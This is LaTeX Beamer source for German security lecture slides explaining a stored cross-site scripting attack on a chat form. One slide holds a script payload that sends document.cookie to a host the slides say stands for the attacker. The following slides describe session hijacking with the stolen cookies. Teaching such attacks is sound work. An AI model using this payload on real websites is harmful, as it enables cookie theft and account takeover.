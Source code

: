 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{XSS - Beispiel}
  \begin{itemize}
    \item Wir verwenden die XSS-Sicherheitsl\"uck in Form, um unser eigenes Script in die Seite zu integrieren.
    \item F\"ullen wir das Feld 'new message' wie folgt:

    \begin{lstlisting}[style=PHPStyle]
      Please no Offtop in this thread. 
      <script>
        img = new Image();
        img.src = "http://localhost:8000/cat.jpg?"+document.cookie;
      </script>
    \end{lstlisting}
    \item Annahme: das Zieladdress (http://localhost:8000) geh\"ort zum Angreifer.
  \end{itemize}
\end{frame}


\begin{frame}[fragile]{XSS - Beispiel}
  \begin{figure}[ht]
      \centering
      \includegraphics[width=\textwidth]{XSS-2.png}
      \caption{Nach der Integration des Skripts}
      \label{fig:figure2}
  \end{figure}
\end{frame}

\begin{frame}[fragile]{XSS - Beispiel}
  \begin{itemize}
    \item Da die Website die Eingabe nicht \"uberpr\"uft, gelangt unser Skript in den Chat.
    \item Ab jetzt jeder Besucher des Seites wird sein Cookies-data zum Angreifer senden.
    \item Der Angreifer sollte, bis der richtige Benutzer die Seite aufruft.
    \item Der Angreifer kann dann in seinem Browser Cookie-Werte ersetzen, so dass die Website ihn als Benutzer nimmt.
  \end{itemize}
\end{frame}
\end{document}
